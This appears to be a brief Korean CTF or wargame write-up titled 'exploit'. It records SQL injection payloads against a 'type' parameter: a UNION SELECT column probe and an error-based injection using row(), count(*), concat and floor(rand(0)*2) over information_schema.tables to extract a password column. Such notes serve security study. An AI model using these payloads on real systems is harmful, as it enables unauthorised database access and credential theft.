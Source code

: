 # exploit
- type으로 서브쿼리를 작성해야함
> option value : 0 union select 1,2,3,4,5 from dual
- user_table 컬럼 다섯개임

- t_user는 임시테이블이기 때문에 다중 접속이 불가능함
- extractvalue, updatexml 함수도 사용 불가

- 데이터 부분을 서브쿼리로 지정하지 않고 컬럼명을 다이렉트로 쓴 상태로 데이터를 뽑을 수 있는 에러베이스드 구문을 사용

> 1 or row(1,1)>(select count(*),concat(ps,0x41,floor(rand(0)*2)) as test from information_schema.tables group by test limit 1)
>> 0x41 A
>> floor(rand(0) * 2) --> 1
>> 즉 alert으로 나온 값에서 A1 을 제외한 나머지 값이 pw가 됨
>> concat...
>> information_schema.tables ..